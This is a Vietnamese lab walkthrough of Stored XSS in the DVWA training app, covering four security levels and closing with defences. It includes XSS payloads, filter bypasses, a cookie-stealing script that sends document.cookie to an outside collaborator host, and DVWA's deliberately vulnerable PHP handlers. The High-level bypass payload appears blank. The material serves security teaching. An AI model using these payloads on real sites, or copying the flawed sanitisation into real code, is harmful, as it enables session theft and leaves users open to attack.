# **Stored Cross-Site Scripting (Stored XSS)**

## **Tổng quan**

Stored XSS là lỗ hổng cho phép kẻ tấn công chèn mã độc, thường là **JavaScript**, vào dữ liệu của ứng dụng web. Khác với Reflected XSS, đoạn mã độc này được lưu trữ lâu dài trên máy chủ, chẳng hạn trong cơ sở dữ liệu, tệp tin, bình luận, bài viết hoặc hồ sơ người dùng.

Lỗ hổng này thường xuất hiện khi ứng dụng:

* Nhận dữ liệu từ form bình luận, bài đăng, tin nhắn hoặc thông tin hồ sơ.
* Lưu trực tiếp dữ liệu người dùng vào cơ sở dữ liệu.
* Hiển thị lại dữ liệu đã lưu trên trang web mà không mã hóa an toàn.
* Không thực hiện **Output Encoding** phù hợp.
* Không kiểm tra hoặc lọc các thẻ và thuộc tính nguy hiểm.
* Không sử dụng các cơ chế bảo vệ như **Content Security Policy (CSP)**.

Kẻ tấn công thường gửi một payload XSS thông qua các chức năng cho phép lưu nội dung trên hệ thống.

Ví dụ:

```html
<script>alert(1)</script>
```

Nếu đoạn mã trên được gửi vào phần bình luận và ứng dụng lưu trực tiếp nó vào cơ sở dữ liệu, payload sẽ được thực thi mỗi khi người dùng khác truy cập trang có chứa bình luận đó.

Khác với **Reflected XSS**, Stored XSS không yêu cầu nạn nhân phải truy cập một đường dẫn chứa payload độc hại. Payload đã được lưu sẵn trên máy chủ và có thể tự động được gửi đến nhiều người dùng khi họ truy cập nội dung bị ảnh hưởng.

Do có khả năng ảnh hưởng đến nhiều người dùng, Stored XSS thường nguy hiểm hơn Reflected XSS. Kẻ tấn công có thể đánh cắp thông tin phiên đăng nhập, thay đổi nội dung trang, thu thập dữ liệu, chuyển hướng người dùng hoặc thực hiện hành động dưới danh nghĩa nạn nhân.

Thông qua Stored XSS, kẻ tấn công cũng có thể nhắm tới các tài khoản có quyền cao như quản trị viên nếu quản trị viên truy cập trang chứa payload độc hại.

Trong DVWA, mục tiêu của bài lab là phân tích cách ứng dụng nhận, lưu trữ và hiển thị dữ liệu người dùng. Ở mỗi mức bảo mật **Low, Medium, High và Impossible**, ứng dụng sẽ bổ sung các cơ chế lọc dữ liệu, giới hạn đầu vào, mã hóa đầu ra hoặc kiểm tra dữ liệu nhằm hạn chế và ngăn chặn Stored XSS.

## **Security Level**
### **Low**
#### **Cách khai thác**


Trang web cho phép thực hiện nhập tên của sách và mô tả của sách, sau đó nó được lưu trữ rồi hiển thị ra ngoài trang web\
Ta thực hiện nhập mã JS vào để web thực hiện popup bằng hàm `alert()` vào phần **Message**

```javascript
<script>alert('XSS')</script>
```



Sau khi gửi, web lập tức hiện 1 popup\
Từ đó ta có thể xác định được rằng web đã dính lỗ hổng **Stored XSS**



Thực hiện quan sát trong Devtool, ta thấy được input được đưa thẳng vào thẻ `<div>`, từ đó dẫn đến mã JS được thực thi

Tiếp theo ta thử thực hiện trích xuất cookie\
Ta thử thực hiện bằng cách tạo request ra bên ngoài 

```javascript
<script>fetch('https://burpcollaborator.com/steal?cookie=' + btoa(document.cookie));</script>
```



Nhưng khi nhập liệu vào thì ta thấy ô textbox dường như đã giới hạn số lượng kí tự có thể nhập vào, có thể là do filter từ Frontend\
Vì vậy ta chuyển sang Burp để có thể thực hiện gửi request để không bị giới hạn kí tự



Sau khi gửi request, ta thấy đã thành công 



Khi quan sát HTML, ta đã thấy web đã đưa đoạn mã JS của ta vào và thực thi



Kết quả là ta nhận được 1 request bao gồm cookie của người dùng đã truy cập vào trang chứa mã JS

#### **Phân tích mã nguồn**


```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


Ở đoạn code xử lý này, ta thấy được rằng web đã thực hiện lấy kết quả từ 2 tham số `mtxMessage` và `txtName` sau đó gán thẳng vào biến `$message` và `$name` rồi cuối cùng thêm chúng thẳng vào DB\

Điều này làm cho DB đã lưu mã độc mà không có xử lý chuỗi trước khi `INSERT`, sau đó lại trả thẳng về dữ liệu độc đó cho frontend, khiến cho trình duyệt của nạn nhân thực hiện truy vấn và gửi dữ liệu về cho attacker

### **Medium**
#### **Cách khai thác**


Ta tiếp tục gửi payload

```javascript
<script>alert('XSS')</script>
```



Ta thấy được rằng thẻ `<script>` đã bị filter, vì vậy không thể thực hiện hàm `alert()`, và kí tự bên trong `'` cũng bị escape bởi dấu `\`\
Vì vậy ta thực hiện biến đổi để xem web có lỗi khi filter không

```javascript
<scr<script>ipt>alert(1)</scr<script>ipt>
```

Kết quả là thẻ `<script>` vẫn bị filter



Ta thực hiện thử trên trường `Name` của web



Kết quả là web đã thực thi hàm `alert()`

#### **Phân tích mã nguồn**
```php

<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

Ở level này thì ta đã thấy web có filter mỗi tham số một cách\
Với tham số `mtxMessage` được validate khá chặt chẽ từ việc escape các kí tự đặc biệt bằng hàm `addslashes()`, đó là lí do tại sao `alert('XSS')` sau khi gen ra UI lại có dạng `alert(\'XSS\')`\
Tiếp theo nó loại bỏ hết các thẻ HTML bằng hàm `strip_tags()`\
Sau đó lại dùng hàm `htmlspecialchars()` để nói với Frontend xử lý những kí tự, hàm HTML là kí tự thông thường, không xử lý HTML

Với tham số `$name`, ta thấy nó được validate khá lỏng lẻo, nó chỉ dùng hàm `str_replace()` để thay thế các thẻ `<script>` bằng chuỗi rỗng

Rồi cuối cùng vẫn thực hiện insert vào DB\
Ta thấy được rằng level này validate chặt chẽ ở 1 form nhưng lại lỏng lẻo ở một form khác, điều đó khiến lỗ hổng có thể khai thác

## **High**
#### **Cách khai thác**


Với level này, ta thực hiện gửi lại payload của level trước



Kết quả là web đã filter hết tất cả thẻ `<script>`\
Ta thực hiện encode HTML thẻ `<script>`

```javascript
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;alert(1)&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;
```



Kết quả thì vẫn bị filter hết\
Ta sẽ thực hiện bypass bằng thẻ ``

```html

```



Kết quả là web đã hiện popup\

#### **Phân tích mã nguồn**
```php

<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

Ở level này, ta đã thấy được khác biệt là nó thay thế hàm `str_replace()` bằng hàm `preg_replace`\
Hàm này cho phép tìm kiếm và thay thế chuỗi theo biểu thức chính quy, nó thực hiện tìm tất cả các chuỗi gần giống với thẻ `<script>`

## **Impossible**
#### **Phân tích mã nguồn**
```php

<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

Mấu chốt của level này là cả 2 form đều được sử lý bằng hàm `htmlspecialchars()`, nó khiến cho các thẻ, các hàm (*nếu có trong input*) được xử lý tương đương với chuỗi thông thường

## **Cách phòng chống**

* Mã hóa dữ liệu đầu ra bằng `htmlspecialchars()`.
* Không đưa trực tiếp dữ liệu người dùng vào HTML.
* Kiểm tra và giới hạn dữ liệu đầu vào.
* Không chỉ dựa vào blacklist như `strip_tags()` hoặc `preg_replace()`.
* Sử dụng thư viện lọc an toàn nếu cho phép nhập HTML.
* Thiết lập **Content Security Policy (CSP)**.
* Đặt cookie với `HttpOnly`, `Secure`, `SameSite`.
* Mã hóa dữ liệu theo đúng ngữ cảnh: HTML, thuộc tính, JavaScript hoặc URL.


